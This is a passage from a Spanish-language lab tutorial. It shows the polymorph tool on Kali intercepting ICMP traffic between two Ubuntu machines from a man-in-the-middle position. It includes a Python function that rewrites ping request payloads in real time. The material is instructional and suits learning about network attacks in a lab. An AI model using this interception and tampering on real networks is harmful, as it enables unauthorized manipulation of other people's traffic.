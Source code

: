 Si ponemos el comando:

```
intercept
```

Info:

```
[+] Waiting for packets...

(Press Ctr-C to exit)
```

Ahora ya si que todos los paquetes que pasen por nosotros que estamos en medio de la comunicacion entre las 2 maquinas `Ubuntu` van a pasar por `polymorph` y la funcion que hemos creado se va a ejecutar sobre cada uno de los paquetes de red que interceptemos.

Si nosotros en la maquina `Ubutnu` hacemos un `ping`:

```shell
ping 192.168.5.183
```

Y nos volvemos al `kali`, podremos ver lo siguiente por terminal:

```
He recibido un paquete ICMP
He recibido un paquete ICMP
He recibido un paquete ICMP
He recibido un paquete ICMP
He recibido un paquete ICMP
He recibido un paquete ICMP
```

Por lo que vemos se esta ejecutando correctamente y se esta modificando a tiempo real.

Ahora en vez de sacar estos campos por pantalla, podremos modificarlos de la siguiente forma:

Vamos a ejecutar el mismo comando de antes, donde tenemos el codigo, pero haremos los siguientes cambios:

```shell
functions -a icmp_func -e nano
```

Info:

```python
def icmp_func(packet)
	if packet['IP']['proto'] == 1:
		print("He recibido un paquete ICMP")
		if packet['ICMP']['type'] == 8:
			print("El paquete de red es ICMP Request")
			packet['ICMP']['data'] = packet['ICMP']['data'][:-8] + b'attacker'
	else:
		print("He recibido otro paquete de red")
	return packet
```
